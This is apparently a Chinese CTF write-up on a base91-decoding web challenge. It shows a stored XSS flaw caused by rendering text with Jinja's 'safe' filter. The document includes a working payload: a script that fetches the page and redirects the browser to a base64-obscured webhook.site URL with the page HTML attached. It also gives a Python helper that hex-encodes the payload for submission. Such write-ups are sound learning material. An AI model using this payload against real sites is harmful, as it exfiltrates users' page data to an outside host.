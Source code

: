 没有仔细做题直接看wp就会复现很慢（而且出很多问题、而且还是英文的wp（再一次感叹自己的英文水平弱小:sob:)）

先对网站大概扫一下发现是一个提供在线解base91的网站（只不过会有点小问题）

先代码审计一下（主要是扫一下代码）

```html
<h2 class="subtitle">{{encoding["text"]|safe}}</h2>
```

这里对text直接解码了就会有xss漏洞（下次遇见xss漏洞就不会那么措不及防了）

然后主要看create如何创建带有攻击性的字符

```python
def create():
    if not session:
        flash("Please log in")
        return redirect("/login")
    if request.method == "GET":
        return render_template("create.html", logged_out=False)
    elif request.method == "POST":
        if not request.form["text"]:
            return "Missing text"
        text = request.form["text"]
        if len(text) > 1000:
            flash("Too long!")
            return redirect("/create")
        encoded = based91.encode(text.encode() if not (re.match(r"^[a-f0-9]+$", text) and len(text) % 2 == 0) else bytes.fromhex(text))
        encoding_id = create_encoding(session["username"], encoded)
        
        return redirect(f"/e/{encoding_id}")
```

关键句:

```python
 encoded = based91.encode(text.encode() if not (re.match(r"^[a-f0-9]+$", text) and len(text) % 2 == 0) else bytes.fromhex(text))
```

这里如何判断text不是十六进制就直接encode,如果是十六进制就先用hex16进制解密一下

注意会在后面加一些东西防止xss注入

然后就开刷exp，这里学到一个网站webhook，相当于一键给自己搭了一个测试用的网站

```python
import based91
script='<script>fetch("/")["then"]((data)=>data["text"]())["then"]((html)=>location=atob("aHR0cHM6Ly93ZWJob29rLnNpdGUvYjNhZThkNmEtMjkxMS00MGFkLWJmY2MtMDRhYmZmNTE2NmIxP2RhdGE9")+btoa(html))</script><p>sometag</pG'
result = based91.decode(script)
print(result.hex())

```

这里讲一下exp，

```javascript
fetch("/")
  ["then"]((data) => data["text"]())
  ["then"](
    (html) =>
      (location =
        atob("aHR0cHM6Ly93ZWJob29rLnNpdGUveW91ci1zZXJ2ZXI/ZGF0YT0=") +
        btoa(html))
  );
```

这段代码的作用是从根路径获取数据，然后将获取到的文本内容经过 Base64 编码后与一个预定义的 URL 进行拼接，最终将浏览器重定向到拼接后的 URL。即可在测试的网站中获取网页内容。

```html
<p>sometag</pG
```

这种是为了防止网页过滤一点，成功起到xss攻击的效果

学到了挺多的（另外对于字符的仔细观察也必不可少（被坑了好多:sob:））
